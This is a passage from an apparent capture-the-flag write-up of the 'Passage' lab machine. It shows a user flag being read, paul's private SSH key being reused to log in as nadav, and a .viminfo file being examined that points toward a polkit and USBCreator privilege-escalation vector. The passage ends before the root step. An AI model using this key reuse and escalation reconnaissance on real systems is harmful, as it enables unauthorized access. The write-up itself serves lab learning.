 ## Reading user flag
```console
paul@passage:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  user.txt  Videos
paul@passage:~$ cat user.txt
6128************************ff6f
```
## Privilege Escalation to nadav
On paul's ssh directory there was a private key and when I tried to login with that private key as nadav, I got in.
```console
paul@passage:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub  known_hosts
paul@passage:~/.ssh$ ssh -i id_rsa nadav@passage
Last login: Fri Sep 18 06:47:44 2020 from 127.0.0.1
nadav@passage:~$
```
## Privilege Escaltion to root
I spent a lot of time here trying to figure a way to get root. I ran different scripts like linpeas.sh and LinEnum.sh to check potential vector for privilege escalation but was not able to get anything. 

### On .viminfo file in nadav's home directory
```console
nadav@passage:~$ cat .viminfo 
# This viminfo file was generated by Vim 7.4.      
# You may edit it if you're careful!
                                                                                        
# Value of 'encoding' when this file was written
*encoding=utf-8
                                                                                        
                                            
# hlsearch on (H) or off (h):
~h                       
# Last Substitute Search Pattern:
# Last Substitute Search Pattern:
~MSle0~&AdminIdentities=unix-group:root

# Last Substitute String:
$AdminIdentities=unix-group:sudo

# Command Line History (newest to oldest):
:wq
:%s/AdminIdentities=unix-group:root/AdminIdentities=unix-group:sudo/g

# Search String History (newest to oldest):
? AdminIdentities=unix-group:root

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Input Line History (newest to oldest):

# Registers:

# File marks:
'0  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
'1  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

```